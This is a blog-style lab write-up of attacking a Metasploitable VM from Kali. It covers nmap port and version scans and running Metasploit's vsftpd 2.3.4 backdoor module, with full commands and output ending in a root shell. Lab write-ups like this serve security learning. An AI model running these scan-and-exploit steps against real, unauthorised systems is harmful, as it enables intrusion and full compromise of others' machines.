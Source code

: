 # Let's hack stuff!

First and fore most, long time no see. The last couple of months flew by and I haven't really been in the mood of writing. 
Now I stated experimenting with Kali again and figured I might as well document it.

## The environment

I have set up a Kali VM - the atacker - and a Metasploitable VM - the target - in VirtualBox, that I will be using in this post. 
Kali is a Linux distro designed for hacking/pentesting and is loaded with tools. Metasploitable is an Ubuntu VM loaded with poorly 
configured applications that are easily hackable. I will post instructions in a future post, but most of it is dead simple and easily found online already. 

## The hack

This is a very simple exploit and took about ten minutes. The write up took significantly longer!

### Scanning the network

So after I have fired up my VMs I open the attacking machine and start a terminal. The first thing I want to do is find out where my target is so I 
turn to `nmap` and run (result redacted):

    # nmap  192.168.56.0/24

    Nmap scan report for 192.168.56.103
    Host is up (0.00013s latency).
    Not shown: 977 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    23/tcp   open  telnet
    25/tcp   open  smtp
    53/tcp   open  domain
    80/tcp   open  http
    111/tcp  open  rpcbind
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    512/tcp  open  exec
    513/tcp  open  login
    514/tcp  open  shell
    1099/tcp open  rmiregistry
    1524/tcp open  ingreslock
    2049/tcp open  nfs
    2121/tcp open  ccproxy-ftp
    3306/tcp open  mysql
    5432/tcp open  postgresql
    5900/tcp open  vnc
    6000/tcp open  X11
    6667/tcp open  irc
    8009/tcp open  ajp13
    8180/tcp open  unknown
 
I can identify the target by the loads of open ports. This is a virtual network so there are no other machines on the network, this makes finding
the target easier than it would be in the wild. In a real life scenario you would have to do some research in order to know what machine you should target.

Now that we have our target, `192.168.56.104` we can do a more advanced scan:

    # nmap -sV -O -p1-65535 192.168.56.103 > target
    
This will scan all the ports (`-p1-65535`) of particular machine, it will also try to detect the OS (`-O`) and further more it will try
to identify what versions the software listening to each open port are running (`-sV`). I save this to a file called `target` since I like to
reference the scan later on.

In this excercise I am only interested in the fisrt service running on port 21, the second scan returns the following:

    21/tcp open  ftp     vsftpd 2.3.4

We now have a bit more information about our target. We know the application name and version number, this will help us find an exploit.

### Finding an exploit

There are two things we can do now, either scan the machine with a vulnerability scanner or search for an exploit manually. 
I decided to do a quick manual search and launch a vulnerability scanner if I didn't get quick results. 

Metasploit is our friend here so I launch it with `#msfconsole` and do the following:

    msf > search vsftpd

    Matching Modules
    ================

       Name                                  Disclosure Date  Rank       Description
       ----                                  ---------------  ----       -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution

Jackpot! We found a vulnerability with an excellent rating that affects the exact version our target is running. 
Let's find out more, again the output is redacted.

    msf> info exploit/unix/ftp/vsftpd_234_backdoor 
    
    Name: VSFTPD v2.3.4 Backdoor Command Execution
    Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2011-07-03

    Description:
      This module exploits a malicious backdoor that was added to the 
      VSFTPD download archive. This backdoor was introduced into the 
      vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
      according to the most recent information available. This backdoor 
      was removed on July 3rd 2011.

This sounds really juicy so I will try it out. First I pick the exploit and show all options for it:

    msf > use exploit/unix/ftp/vsftpd_234_backdoor 
    msf exploit(vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST                   yes       The target address
       RPORT  21               yes       The target port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

This tells me that I need to set the target, denoted by RHOST. I set it and show all available payloads:

    msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(vsftpd_234_backdoor) > show payloads

    Compatible Payloads
    ===================

       Name               Disclosure Date  Rank    Description
       ----               ---------------  ----    -----------
       cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

There is only a single payload available so I select that and launch my attack!


    msf exploit(vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf exploit(vsftpd_234_backdoor) > exploit

    [*] Banner: 220 (vsFTPd 2.3.4)
    [*] USER: 331 Please specify the password.
    [+] Backdoor service has been spawned, handling...
    [+] UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.104:33322 -> 192.168.56.103:6200) at 2014-11-12 13:45:57 -0500

Succes we have a shell, and as an added bonus:

    whoami
    root
    
### Summary

This exploit was a very simple challenge and I could execute it with very simple tools. 
Hopefully the next service (SSH running on port 22) will be a little tougher.
